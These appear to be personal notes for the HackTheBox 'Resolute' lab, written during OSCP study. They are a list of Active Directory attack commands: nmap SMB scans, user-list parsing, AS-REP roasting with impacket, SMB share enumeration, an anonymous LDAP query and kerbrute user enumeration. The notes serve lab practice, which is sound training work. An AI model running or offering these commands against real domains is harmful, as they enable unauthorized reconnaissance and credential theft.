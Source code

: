 ### Namp
```bash
nmap -vv --reason -Pn -T4 -sV -p 445 "--script=banner,(nbstat or smb* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN "/home/alvin/Documents/OSCP-PWK/HackTheBox/Windows/Active Directory/Resolute/results/10.129.96.155/scans/tcp445/tcp_445_smb_nmap.txt" -oX "/home/alvin/Documents/OSCP-PWK/HackTheBox/Windows/Active Directory/Resolute/results/10.129.96.155/scans/tcp445/xml/tcp_445_smb_nmap.xml" 10.129.96.155
```
Above nmap smb command get users_raw.txt

```bash
grep MEGABANK users_raw.txt | cut -d '\' -f2 | awk '{print $1}' > users.txt
```

### rpcclient
```bash
cat rpc_users_raw.txt | cut -d '[' -f2 | awk '{print $1}' | tr -d ']' > rpc_users.txt
```

### ASREP roasting
```bash
impacket-GetNPUsers megabank.local/ -dc-ip $IP -no-pass -usersfile users.txt 

impacket-GetNPUsers megabank.local/ -dc-ip $IP -no-pass -usersfile rpc_users.txt 
```

### SMB
##### smbmap
```bash
smbmap -H $IP 
smbmap -H $IP -u null -p ''
smbmap -H $IP -u ''
```
##### smbclient
```bash
smbclient -N -L \\\\$IP
```
##### crackmapexec
```bash
crackmapexec smb $IP --shares
```

### ldapsearch
```bash
ldapsearch -x -H ldap://$IP -b "dc=megabank,dc=local" -s base '(objectclass=*)' > ldapsearch_with_dc.txt
```

### Kerbrute to check valid users since users.txt has plaintext password
```bash
/opt/kerbrute_linux_amd64 userenum -d megabank.local --dc $IP users.txt
```
